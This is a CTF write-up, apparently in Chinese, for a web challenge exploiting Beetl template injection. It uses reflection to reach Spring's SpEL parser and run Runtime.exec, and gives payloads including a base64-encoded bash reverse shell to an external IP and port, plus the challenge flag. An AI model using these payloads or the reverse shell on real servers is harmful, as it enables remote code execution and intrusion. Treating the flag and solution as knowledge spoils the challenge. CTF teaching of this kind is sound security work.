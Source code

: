 - **题目名称：** EL
- **题目类型：** WEB
- **题目难度：** 中等
- **出题人：** Victor
- **考点：**

1. beetl模板注入
2. 信息搜集和阅读官方文档
3. 通过反射构造调用表达式语言

- **描述：** 这次好像又要用到反射
- **flag：** XSCTF{Expr3ssi0n_L4ngu4g3_is_v3ry_u5efu1}
- **Writeup：** 

反编译jar包后可以看到程序的逻辑就是在/render路由下进行beetl模板的渲染且渲染内容可控，显然是要打SSTI。通过搜集信息和对官方文档的简单阅读可知beetl模板通过@xxx即可调用java静态方法；在3.17.0版本后作者对可调用的类默认从黑名单改成了白名单；题目中的MySecurityManager即为出题人对白名单的修改，可以看到相比默认的白名单多了java.lang.Class和org.springframework。再根据题目提示反射和一些旧版本下beetl模板注入的payload可以联想到经典的通过反射获取类进行实例化再调用scriptengine的js引擎执行命令：

`${@Class.forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec('calc');")}`

而本题中scriptengine不在白名单内，可以通过在白名单下的spel去执行命令

`${@Class.forName('org.springframework.expression.spel.standard.SpelExpressionParser').newInstance().parseRaw('T(java.lang.Runtime).getRuntime().exec("calc")').getValue()}`

打反弹shell在解析时由于引号和嵌套等问题，需要分成多行去写

```
<%
var spel = 'T(java.lang.Runtime).getRuntime().exec(\'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC84LjEzNC4xNzkuNDkvMTIzNDUgMD4mMQ==}|{base64,-d}|{bash,-i}\')';
var clazz = @Class.forName('org.springframework.expression.spel.standard.SpelExpressionParser').newInstance();
@clazz.parseRaw(spel).getValue();
%>
```

PS：在可以使用Class.forName()却不能使用method.invoke()时，十分常见的一种思路是通过newInstance()去调用危险方法；jdk8最常用的scriptengine在jdk11开始废弃，而spel表达式集成在spring依赖中，因此spel的适用性也很广。这道题本来想设置的自由一些的，但一直达不到想要的效果，遂开摆。